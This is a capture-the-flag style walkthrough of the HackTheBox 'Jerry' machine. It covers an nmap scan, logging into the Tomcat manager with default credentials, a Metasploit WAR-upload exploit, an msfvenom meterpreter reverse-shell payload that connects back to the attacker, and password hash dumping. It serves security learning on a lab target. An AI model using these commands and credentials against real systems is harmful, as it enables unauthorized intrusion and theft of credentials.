```yaml
---
title: "HackTheBox - Jerry"
author: Nasrallah
description: ""
date: 2022-08-03 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, tomcat, metasploit,]
img_path: /assets/img/hackthebox/machines/jerry
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Jerry](https://app.hackthebox.com/machines/Jerry) from [HackTheBox](https://www.hackthebox.com). It's running Apache Tomcat with default credentials, allowing us to upload files and get access to the machine.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```

We found an Apache webserver running on port 8080.

## Web

Let's see what's on the webserver.

![](1.png)

It's Tomcat welcome page. Going to **/manager** page we get prompt for a username and a password, trying random credentials we get Access Denied page that reveals the default credentials.

![](2.png)


# **Foothold**

To get initial access to the target, we can use the metasploit module **exploit/multi/http/tomcat_mgr_upload** that would upload a **.war** to the server, start a listener and then execute the file to get a reverse shell. 

![](3.png)

We need to set the required options.

```
set rhosts {target_IP}

set rport 8080

set httpusername tomcat

set httppassword s3cret

set lhost tun0
```

And we run the exploit by typing `exploit`.

![](4.png)

We got in to the target as user `Jerry`.

# **Shell upgrade**

User Jerry is an Administrator in this machine so no need for privilege escalation, But meterpreter commands like hashdump won't work.

![](5.png)

Let's generate a exe reverse shell file to be executed on the target with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o shell.exe
```

>Change LHOST value to your tun0 IP.


Now we need to upload it to the target using the upload feature in meterpreter.

Next is to setup a multi handler listener on metasploit, first, background the current session with the command `background`.

Next is to use a the multi handler with correct options set and run in in the background with the command `run -j`.

![](6.png)

Now go back to the first session with the command `sessions 1`, run the command `shell` to get a cmd shell, go to where you uploaded the shell.exe file and run it.

![](7.png)

We see that another session got opened.

Now exit the current shell, then background the meterpreter session, and run `sessions 2` to move to the newly opened session.

We can dump the hashes now without any problems.

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
